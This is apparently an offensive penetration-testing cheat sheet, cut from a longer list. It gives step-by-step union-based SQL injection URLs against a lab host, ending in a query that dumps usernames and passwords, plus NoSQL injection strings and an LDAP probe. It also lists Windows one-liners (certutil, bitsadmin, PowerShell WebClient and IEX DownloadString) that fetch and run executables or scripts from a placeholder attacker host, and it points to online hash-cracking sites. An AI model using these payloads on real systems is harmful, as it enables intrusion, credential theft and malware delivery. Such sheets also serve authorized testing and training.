 # 2. Determine Data Types for each field once max columns determined
http://192.168.131.10:9090/search?search=') UNION SELECT 'a',NULL,NULL,NULL,NULL--   # 'a' returned error
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a',NULL,NULL,NULL--   # 'a' returned data indicating string
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a','a',NULL,NULL--    # 'a' returned data indicating string
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a','a','a',NULL--     # 'a' returned error
http://192.168.131.10:9090/search?search=') UNION SELECT NULL,'a','a',NULL,'a'--     # 'a' returned error

# 3. Attempt SQL Injection on table guess using guessed field names
http://192.168.131.10:9090/search?Search=') UNION SELECT NULL,username,password,NULL,NULL FROM users--

// NOSQL
' ||1==1//
, $where: '1 == 1'

// LDAP (:389/tcp|:636/tcp) - PROBING & EXPLOITATION
ldapsearch -h <IP> -p <PORT> -x -s base

// FILE TRANSFER - HTTP CLIENT
certutil.exe -urlcache -split -f "http://<ATTACKER-IP>:<PORT>/<file>" exploit.exe
bitsadmin /transfer mydownloadjob /download /priority normal http://<ATTACKER-IP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
cscript wget.vbs <ATTACKER IP>/<FILE> evil.exe
wget <ATTACKER-IP>:<PORT>/<FILE>.exe -usebasicparsing -o <file>.exe
powershell -c "wget <ATTACKER-IP>/<FILE>.exe -usebasicparsing -o <FILE>.exe"
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER-IP>/<FILE>.exe','shell.exe')
# PowerShell Remote Script Execution w/o saving to target/victim HDD
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://<ATTACKER-IP>/script.ps1')

// BRUTE FORCE & PASSWORD CRACKING
# http://crackstation.net
# https://hashkiller.co.uk/Cracker
# https://www.cmd5.org/
# https://www.onlinehashcrack.com/
# https://gpuhash.me/
# https://crackstation.net/
# https://crack.sh/
# https://hash.help/